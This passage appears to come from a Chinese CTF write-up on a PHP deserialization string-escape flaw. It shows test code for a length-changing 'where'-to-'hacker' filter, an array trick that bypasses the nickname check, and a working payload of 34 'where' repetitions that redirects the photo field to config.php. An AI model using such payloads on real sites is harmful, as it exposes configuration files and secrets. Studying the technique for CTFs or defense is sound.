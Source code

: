 ```php
    }
    ......
}
```

利用点只能是 serialize 和 unserialize 的部分

这里每次**序列化后**的数据都会交给 filter 函数进行过滤, 过滤的时候存在字符串替换

自然就想到了反序列化字符串逃逸漏洞

前几个 select insert update delete 替换成 hacker 字符数不变, 只有 where 替换成 hacker 是增多了一个字符, 所以从 where 入手

逃逸位置以 nickname 为例, 其它地方同理, 就是麻烦一点

preg_match strlen 本地数组绕过可行

测试代码

```php
<?php

if(preg_match('/[^a-zA-Z0-9_]/', $_GET['nickname']) || strlen($_GET['nickname']) > 10){
    die('Invalid nickname');
}

$profile['phone'] = '13888888888';
$profile['email'] = '123@qq.com';
$profile['nickname'] = $_GET['nickname'];
$profile['photo'] = 'upload/' . md5('1.jpg');

$safe = array('select', 'insert', 'update', 'delete', 'where');
$safe = '/' . implode('|', $safe) . '/i';

echo preg_replace($safe, 'hacker', serialize($profile));
var_dump(unserialize(preg_replace($safe, 'hacker', serialize($profile))));
?>
```

先输入长字符测试绕过

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208302224771.png)

因为提交的是 `nickname[]=xxxx`, 序列化的结果是数组, 所以 payload 需要多闭合一个大括号

```
";}s:5:"photo";s:10:"config.php";}
```

长度为 34, 需要敲 34 个 where

```
wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";}
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208302227234.png)
